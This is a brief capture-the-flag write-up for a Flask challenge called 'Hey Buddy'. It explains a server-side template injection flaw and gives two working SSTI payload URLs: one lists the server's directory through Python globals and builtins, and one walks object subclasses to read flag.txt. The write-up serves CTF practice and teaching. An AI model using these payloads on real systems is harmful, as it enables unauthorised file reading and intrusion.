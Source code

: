 /## Hey Buddy!

![img](https://i.ibb.co/pdSMfVs/image.png)

### Solution:

This challenge is developed using flask and it contains the SSTI (Server Side Template Injection) vulnerability. It has two steps to exploit.

Step 1: Checking where is the flag file location

```
https://h3y-buddy.vishwactf.com/submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```
![img](https://i.ibb.co/nksZN8w/image.png)

Step 2: Reading flag file using the vulnerability

```
https://h3y-buddy.vishwactf.com/submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

![img](https://i.ibb.co/tLrfQyX/image.png)
